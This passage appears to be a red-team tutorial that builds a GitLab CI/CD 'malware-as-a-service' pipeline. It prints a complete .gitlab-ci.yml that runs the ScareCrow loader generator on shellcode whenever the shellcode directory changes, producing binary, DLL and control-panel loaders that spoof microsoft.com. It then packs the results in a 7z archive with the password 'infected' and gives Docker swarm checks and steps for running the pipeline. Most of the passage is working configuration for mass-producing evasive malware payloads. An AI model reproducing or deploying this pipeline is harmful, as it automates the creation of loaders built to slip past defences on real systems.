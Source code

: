 ## Your First CI/CD Pipeline

We are now ready to write our first CI/CD pipeline. CI/CD pipelines in Gitlab use a YAML configuration file which is saved in the root directory of a repository and named "**.gitlab-ci.yml**".

The documentation for the grammar used in this YAML file is located here at https://docs.gitlab.com/ee/ci/.

For this first effort, I have created a three stage pipeline that will generate some ScareCrow malware payload artifacts, ZIP them up and make available after the pipeline run completes.

Gitlab will automatically create a standard ZIP file for any artifacts that exist at the end of a pipeline run, however I like to use a 7Zip file within the outer ZIP file so that I can apply a passphrase.

### Pipeline Stages

In a typical CI/CD pipeline we would see stages such as *build*, *test*, and *deploy* for example. For our purposes we have a similar arrangement however we are not really doing any testing in this initial effort.

I am going to name our pipeline stages:
* PreProcess
* BakeMalware
* PostProcess

It is useful to know that Gitlab CI/CD will predefine a number of environment variables which we can leverage within our pipeline YAML file. These environment variables are documented here at https://docs.gitlab.com/ee/ci/variables/predefined_variables.html.

For the purposes of our pipeline, we make use of the **$CI_COMMIT_SHORT_SHA** variable to create a unique directory for each run of the pipeline.

**PreProcess** will be used to prepare the ground.  It might be some directory structure we need to create, or anything else we think we need before creating the malware payload itself.  In our case, we are creating a directory and creating a symbolic link to the **garble** binary so that ScareCrow will not have to download it.

**BakeMalware** will be used to actually execute ScareCrow a number of times in order to create the required binary artifacts we desire.

**PostProcess** will be used for 7ZIP archive creation purposes. The 7ZIP archive will be created in a directory which is then further zipped and made available as an artifact to download when the pipeline completes.

### The Pipeline Trigger

It is typically for a CI/CD pipeline to be triggered whenever a "**git commit**" occurs, however we can exert a little more control over this using a *workflow* statement in our YAML file.

For the purposes of generating malware loaders, we will need to supply some shellcode, thus we create a "**shellcode**" directory and configure the workflow such that any file changes in the "**shellcode**" directory will trigger a pipeline run.

### Full Listing of Gitlab YAML file

Below is a complete listing of the current "**.gitlab-ci.yml**" file. The major sections are:

* stages: listing all of the pipeline stages to be executed in sequence
* workflow: defining the pipeline trigger condition(s)
* PreProcess: execute any/all actions in the PreProcess stage.
* ScareCrow: configured as BakingMalware stage
* PostProcess: zip up files, cleanup and publish artifacts

```
stages:
    - PreProcess
    - BakeMalware
    - PostProcess

workflow:
    rules:
        - changes:
            - shellcode/*

PreProcess:
    stage: PreProcess
    tags:
        - maas
    script:
        - |
            mkdir -p /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            ln -s /usr/local/bin/garble /payloads/${CI_COMMIT_SHORT_SHA}/.lib/garble

ScareCrow:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.
com

PostProcess:
    stage: PostProcess
    tags:
        - maas
    script:
        - |
            DEST=${CI_PROJECT_DIR}/ScareCrowPayloads
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            cd /payloads
            7z a "${DEST}/${CI_COMMIT_SHORT_SHA}.7z" "${CI_COMMIT_SHORT_SHA}/*" -p"infected"
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}
    artifacts:
        name: ScareCrowPayloads
        paths:
            - ScareCrowPayloads/
        expire_in: 1 day
```

### Testing your Pipeline

#### Status of Backend Docker Infrastructure

Before testing the new pipeline, you should double check and ensure that the docker service stack is up and running. Login to your primary docker server, and issue some status checking commands to ensure that everything is running as expected.

* ```docker node ls``` is used to check the status of your docker swarm deployment
* ```docker service ls``` gives you information about your deployed service stack
* ```docker service ps``` lists running containers associated with your specific service
* ```docker ps``` lists all of the running containers on the host you are logged into

Shown below is some sample output of a few of these commands:

```
$ docker node ls
ID                            HOSTNAME   STATUS    AVAILABILITY   MANAGER STATUS   ENGINE VERSION
tzl5tqd5saou5ifxvj8opezmx *   docker01   Ready     Active         Leader           24.0.7
z22hcsipj4t2wjbohilptj9qn     docker02   Ready     Active                          24.0.7

$ docker service ls
ID             NAME        MODE         REPLICAS               IMAGE         PORTS
0bl6ihvy2yc7   maas_maas   replicated   4/4 (max 2 per node)   maas:latest

$ docker service ps maas_maas
ID             NAME          IMAGE         NODE       DESIRED STATE   CURRENT STATE               ERROR     PORTS
zsuswajwrmr7   maas_maas.1   maas:latest   docker01   Running         Running about an hour ago
jz3ms7fvcipi   maas_maas.2   maas:latest   docker02   Running         Running about an hour ago
0bvdxt9arhg8   maas_maas.3   maas:latest   docker01   Running         Running about an hour ago
ofjacom0xky8   maas_maas.4   maas:latest   docker02   Running         Running about an hour ago

```

#### Executing the Pipeline from Gitlab

1. In the repository menus, select Build -> Pipelines.

![Alt text](image-12.png)

2. Next, click on the **Run Pipeline** button at the top right corner of the web page. On the following page, you can select a code branch which for this excercise will already be "**main**". Now, click the **Run Pipeline** button in the lower left of the page.

You will see a web page that shows the status of the pipeline running.

![Alt text](image-13.png)

3. When the pipeline completes all of the stages, a green checkmark will appear under each stage. At any time, you can click on the stage *job* itself to see the output of any of the individual job actions in your pipeline script.

![Alt text](image-14.png)

4. At completion time, the status should change to *passed* and all green checkmarks will be displayed.

![Alt text](image-15.png)

5. The artifacts generated by your 7ZIP script actions will be available in a drop down menu which you can then download.

![Alt text](image-16.png)

